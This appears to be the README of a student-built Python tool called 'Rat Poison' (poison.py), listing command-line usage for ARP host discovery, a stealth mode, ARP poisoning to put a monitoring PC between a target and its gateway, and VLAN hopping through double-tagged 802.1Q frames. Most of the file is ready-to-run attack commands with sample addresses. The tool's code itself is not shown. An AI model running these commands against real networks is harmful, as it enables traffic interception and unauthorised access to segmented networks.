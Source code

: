 # Rat Poison

## Team Members
Patrick Kang Wei Sheng <br/>
Jerome Tan Kian Wei <br/>
Kevin Tan<br/><br/>


### Usage
####Help Menu 
```
python poison.py -h                 
```

####Shows all active host within the local network using ARP Broadcast
```
python poison.py -l 192.168.1.0/24  
```

####Prevents host machine from being discovered 
```
python poison.py --stealth
```


###Options Arguments
ARP poisoning mode without VLAN double tagging<br>
**\*To be used with -T, -M, -G**
```
python poison.py -P                                   
```
ARP poisoning mode with VLAN double tagging<br>
**\*To be used with -T, -M, -G, -TM, -MM, -GM --vlan1 --vlan2**
```
python poison.py -PV
```

####Arguments Usage
Specify target’s IP address
```
-T 192.168.10.10
```

Specify monitoring PC IP address
```
-M 192.168.10.11
```

Specify gateway/target2 IP address
```
-G 192.168.10.1
```

To specify target’s MAC address
```
-TM “AA:AA:AA:AA:AA:AA”
```

Specify monitoring PC MAC address
```
-MM “BB:BB:BB:BB:BB:BB”
```

Specify gateway/target2 MAC address
```
-GM “CC:CC:CC:CC:CC:CC”
```

To specify the first Dot1Q VLAN number
```
--vlan1 10
```

To specify second Dot1Q VLAN number
```
--vlan2 20
```


###Attacks Usages
####Nommal ARP Poisoning 
```
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

####Nommal ARP Poisoning with stealth 
```
python poison.py --stealth -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1
```

####VLAN Hopping with ARP Poisoning (Native VLAN 10, Target VLAN 20)
\* Requires Target MAC, Monitor MAC,Gateway MAC with vlan1 and vlan2

```
python poison.py -P -T 192.168.1.10 -M 192.168.1.148 -G 192.168.1.1 -TM "AA:AA:AA:AA:AA:AA" -MM "BB:BB:BB:BB:BB:BB" -GM "CC:CC:CC:CC:CC:CC" --vlan1 10 --vlan2 20
```


                                                 

